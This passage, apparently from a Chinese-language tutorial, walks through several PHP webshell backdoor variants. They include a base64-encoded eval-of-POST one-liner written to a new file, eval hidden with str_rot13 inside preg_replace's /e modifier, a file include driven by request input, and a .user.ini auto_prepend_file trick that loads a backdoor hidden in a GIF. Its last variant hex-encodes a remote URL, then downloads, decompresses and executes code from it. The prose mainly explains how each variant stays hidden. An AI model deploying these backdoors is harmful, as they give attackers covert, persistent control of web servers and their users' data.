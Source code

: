 请求参数

```
?a=assert&b=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
```

完全利用动态参数传入的方式构造后门，将敏感函数和执行的命令动态传入，效果与变形二是一致的。

* * *

```
( $code = $_POST['code'] ) && @preg_replace( '/ad/e', '@' . str_rot13( 'riny' ) . '($code)', 'add' )
```

改进的地方：  
首先，将 eval 函数用 str_rot13(‘riny’) 隐藏。  
然后，利用 e 修饰符，在 preg_replace 完成字符串替换后，使得引擎将结果字符串作为 php 代码使用 eval 方式进行评估并将返回值作为最终参与替换的字符串。

* * *

```
$filename = $_GET['code'];
include( $filename );
```

改进的地方：  
由于 include 方法可以直接编译任何格式的文件为 php 格式运行，因此可以上传一个 txt 格式的 php 文件，将真正的后门写在文本当中。

```
auto_prepend_file=code.gif
```

上传. user.ini，并且写入 auto_prepend_file=code.gif  
将一句话隐藏在 code.gif 中，并且将它上传到同一目录下。

改进的地方：  
将一句话木马隐藏在图形文件中，并且利用用户配置文件将其自动加载到同目录的 php 文件下，使得所有正常 php 文件都毫不知情的中招。

* * *

```
if ( empty( $_SESSION['api'] ) ) {
   $_SESSION['api'] = substr( file_get_contents( sprintf( '%s?%s', pack( "H*", '687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067' ), uniqid() ) ), 3649 );
}
@preg_replace( "~(.*)~ies", gzuncompress( $_SESSION['api'] ), null );
```

改进的地方：

1.  通过 pack 函数得到 URL
2.  利用 file_get_contents 获得 make.jpg
3.  利用 substr 截取 3649 字节以后的内容
4.  利用 gzuncompress 方法将 3649 字节以后的内容解压出来
5.  用 preg_replace 方法的 e 操作符将代码执行

还有很多后续操作……

* * *
